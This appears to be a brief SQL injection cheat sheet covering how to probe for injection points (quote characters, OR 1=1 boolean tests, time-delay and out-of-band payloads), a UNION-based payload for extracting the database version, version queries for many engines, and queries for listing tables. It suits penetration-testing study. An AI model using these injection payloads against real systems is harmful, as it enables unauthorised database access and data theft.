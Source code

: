 Try:

The single quote character ' and look for errors or other anomalies.

Boolean conditions such as OR 1=1 and OR 1=2, and look for differences in the application's responses.

Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.

OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.


## Versions

Example:
`' UNION SELECT @@version--`

Oracle: select * from v$VERSION;
DB2: select service_level from sysibmadm.env_inst_info;
PostgreSQL: select version();
Microsoft, MySQL: select @@version;
	MySQL: select version();
MariaDB: select version();
H2: SELECT H2VERSION() FROM DUAL
SQLite: select sqlite_version();
Firebird: select rdb$get_context('SYSTEM', 'ENGINE_VERSION') as version from rdb$database;


- <https://stackoverflow.com/questions/9646353/how-to-find-database-file-version>



## Listing the contents of the database
Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

`SELECT * FROM information_schema.tables`



Oracle:
	- `SELECT * FROM all_tables`
	- `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`







